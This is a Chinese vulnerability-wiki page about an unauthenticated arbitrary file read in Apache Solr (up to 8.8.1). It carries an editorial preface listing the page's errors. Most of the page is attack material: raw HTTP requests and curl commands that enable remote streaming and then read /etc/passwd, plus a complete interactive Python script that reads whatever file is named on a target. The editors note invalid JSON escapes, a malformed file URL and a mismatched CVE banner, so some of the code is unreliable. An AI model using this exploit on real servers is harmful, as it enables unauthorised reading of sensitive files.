






# Apache Solr 任意文件读取漏洞 1Day

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：未鉴权Config API、core存在、RemoteStreaming可启用且debug/dump可用
- 证据范围：与212主体及PeiQi脚本高度同源，当前版本有更多转码错误。

### 本次正文校订

- 原示例按归档保留 file://etc/passwd；file:///etc/passwd 是此处的校订建议，不替换原始命令，资源路径保持原样。
- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 脚本横幅<8.2.0和0193是DIH旧脚本残留，不属此问题；正文<=8.8.1没有修复边界依据
- curl及Python配置JSON含字面\}，无效；手动请求带无意义olrkzv64tv属性
- curl file://etc/passwd缺绝对路径第三斜线，示例core名不一致
- 响应含This仅是API格式提示，不足判漏洞；脚本改配置后未恢复
- Origin/Referer残留真实公网地址应匿名化，删除推广

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/2D3bLaUVD6Lz7VqRu8dOGA)


**一****：漏洞描述🐑**

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

**二:  漏洞影响🐇**

**Apache Solr <= 8.8.1**

**三:  漏洞复现🐋**

**访问 Solr Admin 管理员页面**



获取 core 的信息  

```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```



发送请求



请求包如下

```http
POST /solr/ckan/config HTTP/1.1
Host: xxx.xxx.xxx:8983
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://118.31.46.134:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取



```http
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```



```
Curl请求为
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true\}\}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"
```

****四:  漏洞 POC🦉****

```
POC还是建立在未授权访问的情况下
```

```python
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true\}\}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)
```



**四:  参考文章🐋**
--------------

[https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098142&idx=1&sn=b025147c7c4855801a1132d0e41f0e6e&scene=21#wechat_redirect)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~  
> 
> 别忘了 Github 下载完给个小星星⭐
> 
> https://github.com/PeiQi0/PeiQi-WIKI-POC

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
